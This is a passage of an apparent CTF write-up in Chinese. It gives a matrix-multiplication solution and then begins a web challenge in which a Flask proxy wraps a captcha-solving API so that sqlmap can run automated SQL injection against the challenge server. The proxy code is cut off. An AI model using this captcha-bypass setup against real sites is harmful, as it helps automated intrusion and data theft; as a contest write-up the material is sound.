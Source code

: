 ```python
open('res.txt', 'w').write(res)
```

## 矩阵之困

分析一下这坨式子，可以发现，假如把 `data` 写成三个 $16\times 48$ 的矩阵 $A,B,C$，那么就是要求 $\left| a_{4i+j}\cdot b_{4j+k}\cdot c_{4i+k}\right|=1$，而其他的 $\left|a_x\cdot b_y\cdot c_z\right|$ 都是 $0$。

这也就意味着，对于三个 $4\times 4$ 的矩阵 $D,E,F$，设

$$
\begin{align*}
x_{u}&=\sum_{i,j} d_{i,j}a_{4i+j,u}\\
y_{u}&=\sum_{j,k} e_{j,k}b_{4j+k,u}\\
\text{Let }f_{i,k}&=\sum_u c_{4i+k,u}x_uy_u\\
&=\sum_u c_{4i+k,u}\sum_{i',j_0}d_{i',j_0}a_{4i'+j_0,u}\sum_{j_1,k'}e_{j_1,k'}b_{4j_1+k',u}\\
&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\sum_u a_{4i'+j_0,u}b_{4j_1+k',u}c_{4i+k,u}\\
&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left| a_{4i'+j_0}\cdot b_{4j_1+k'}\cdot c_{4i+k}\right|\\
&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left[i=i'\text{ and }k=k'\text{ and }j_0=j_1\right]\\
&=\sum_j d_{i,j}e_{j,k}
\end{align*}
$$

即 $F=DE$，而我们只需要求 $x_uy_u$ 这样的乘法，也就是用 48 次乘法完成了这个 $4\times 4$ 的矩乘。

搜索到 [https://math.stackexchange.com/questions/578342/number-of-elementary-multiplications-for-multiplying-4x4-matrices](https://math.stackexchange.com/questions/578342/number-of-elementary-multiplications-for-multiplying-4x4-matrices)，但是第一条回答不能直接用，因为他涉及了一个矩阵内部元素的乘法。

而下面第二条回答给出了一个仅需 47 次乘法的新研究，并且还给出了一个和题目所需的格式基本相同的 01 矩阵。稍微变换一下即可提交。

## 你先别急

手动测试可以发现，没 select 到东西就会变成最高难度的验证码。

可以接入一个验证码识别 api，然后包装一下他的服务，就能用 sqlmap 扫了。

```python
import base64, requests
from flask import Flask, request


def checkcode(s):
    header = {'Authorization': 'xxx'}
    data = {
        'img_base64': s,
    }
    return requests.post('https://xxx', headers=header, json=data).json()['data']['yzm']


header = {
    'Cookie': 'xxx',
}

app = Flask(__name__)


@app.route('/qry')
def qry():
    username = request.values.get('username')
    data = {'username': username}
    r = requests.post('http://202.38.93.111:11230/captcha', headers=header, data=data).json()
    open('r.png', 'wb').write(base64.b64decode(r['result']))
    t = checkcode(r['result'])
```